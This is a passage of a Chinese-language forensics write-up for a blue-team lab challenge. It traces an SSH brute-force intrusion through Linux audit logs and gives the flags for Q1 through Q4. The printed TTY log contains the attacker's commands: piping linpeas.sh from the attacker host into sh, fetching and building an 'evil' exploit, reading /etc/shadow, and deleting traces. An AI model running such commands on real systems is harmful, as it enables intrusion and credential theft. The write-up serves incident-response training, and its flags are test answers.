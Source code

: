 ```bash
91. 10/05/21 08:25:40 btlo ? /dev/pts/1 /usr/bin/sudo no 473858
92. 10/05/21 08:25:41 btlo ? /dev/pts/1 /usr/bin/sudo no 473860
```
可以發現account name都是==btlo==，不過奇怪的是前面有一大堆的認證失敗，到最後才有三次的認證成功，所以我們可以很清楚的知道攻擊者就是==192.168.4.155==嘗試用==bruteforce==的方式透過ssh登入進來

:::spoiler Flag
Flag: `btlo`
:::
## ==Q2==
> What attack type was used to gain initial access?
### Recon
呈上題

:::spoiler Flag
Flag: `bruteforce`
:::
## ==Q3==
> What is the attacker's IP address?
### Recon
呈上題

:::spoiler Flag
Flag: `192.168.4.155`
:::
## ==Q4==
> What tool was used to perform system enumeration?
### Recon
根據[^wp1]的說明，此時要使用到`--tty`的參數列出登入進來之後下甚麼command
```bash
sudo aureport -if audit.log --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 10/05/21 08:23:16 468403 1001 pts1 49 sh "hostname",<nl>
2. 10/05/21 08:23:21 468408 1001 pts1 49 sh "whoami",<nl>
3. 10/05/21 08:23:26 468414 1001 pts1 49 sh "ls",<nl>
4. 10/05/21 08:23:27 468419 1001 pts1 49 sh "sudo -l",<nl>
5. 10/05/21 08:23:34 468447 1001 pts1 49 sh <nl>
6. 10/05/21 08:23:37 468450 1001 pts1 49 sh "wget -O - http://192.168.4.155:8000/linpeas.sh | sh",<nl>
7. 10/05/21 08:26:21 480914 1001 pts1 49 sh "lsb_release -a",<nl>
8. 10/05/21 08:26:31 480921 1001 pts1 49 sh "sudo -V",<nl>
9. 10/05/21 08:26:36 480934 1001 pts1 49 sh "wget http://192.168.4.155:8000/evil.tar.gz",<nl>
10. 10/05/21 08:26:45 480944 1001 pts1 49 sh "ls",<nl>
11. 10/05/21 08:26:50 480947 1001 pts1 49 sh "tar zxvf evil.tar.gz",<nl>
12. 10/05/21 08:26:59 480982 1001 pts1 49 sh "cd evil",<nl>
13. 10/05/21 08:27:03 480984 1001 pts1 49 sh "ls",<nl>
14. 10/05/21 08:27:06 480987 1001 pts1 49 sh "make",<nl>
15. 10/05/21 08:27:10 481020 1001 pts1 49 sh "./evil 0",<nl>
16. 10/05/21 08:27:17 481039 1001 pts1 49 sh "whoami",<nl>
17. 10/05/21 08:27:21 481050 1001 pts1 49 sh "rm -rf /home/btlo/evil",<nl>
18. 10/05/21 08:27:39 481059 1001 pts1 49 sh "rm  /home/btlo/evil.tar.gz",<nl>
19. 10/05/21 08:27:45 481062 1001 pts1 49 sh "cat /etc/shadow",<nl>
20. 10/05/21 08:27:50 481064 1001 pts1 49 sh "exit",<nl>
21. 10/05/21 08:27:53 481065 1001 pts1 49 sh "exit",<nl>
```